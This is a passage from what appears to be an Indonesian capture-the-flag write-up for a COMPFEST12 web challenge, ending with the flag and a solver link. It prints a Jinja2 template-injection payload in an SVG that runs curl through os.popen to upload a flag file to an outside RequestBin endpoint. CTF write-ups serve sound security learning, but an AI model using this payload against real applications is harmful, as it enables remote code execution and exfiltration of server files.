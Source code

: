Mencoba `cat /loooool_ini_lho_fl4gnya` didapati website `Internal Server Error`. Ternyata kita tidak bisa stdout pada website. Lalu, dilakukan upload file flag ke server. Pertama, dengan membuat endpoint requests dahulu (saya menggunakan RequestsBin).

Setelah itu, upload file flag menggunakan `curl` dari server, berikut final payloadnya.

```html
<svg>
    <image>{%raw%}{{ config.__class__.__init__.__globals__['os'].popen('curl [URL_ENDPOINT] --upload-file /loooool_ini_lho_fl4gnya').read() }}{%endraw%}</image>
</svg>
```

Setelah berhasil, cek pada RequestBin dan didapatkan flag.

![FLAG](https://abdullahnz.github.io/assets/images/WEB-8.png)

### Flag

`COMPFEST12{u_r_the_real_mvp_x0x0_uWWWu}`\
<br/>

**Source File & Solver:** [https://github.com/abdullahnz/CTFan/tree/master/Compfest12](https://github.com/abdullahnz/CTFan/tree/master/Compfest12)
